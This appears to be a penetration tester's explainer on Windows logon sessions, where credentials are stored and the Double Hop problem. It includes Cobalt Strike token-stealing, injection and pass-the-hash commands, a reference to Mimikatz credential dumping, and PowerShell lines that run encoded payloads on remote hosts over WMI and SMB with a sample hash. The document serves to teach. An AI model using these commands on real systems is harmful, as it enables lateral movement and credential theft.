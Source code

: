 # Windows Credential Management, Logon Sessions and the Double Hop Problem

I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session **will not** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **will** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

```plaintext
steal_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]
```


If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

```plaintext
make_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]
```
Lastly you can directly pass the credentials to the tool performing the network operations like so:

```


```powershell
$pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass);
Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...'

Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} 
# https://github.com/Kevin-Robertson/Invoke-TheHash 
Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose 

Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose
```

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.
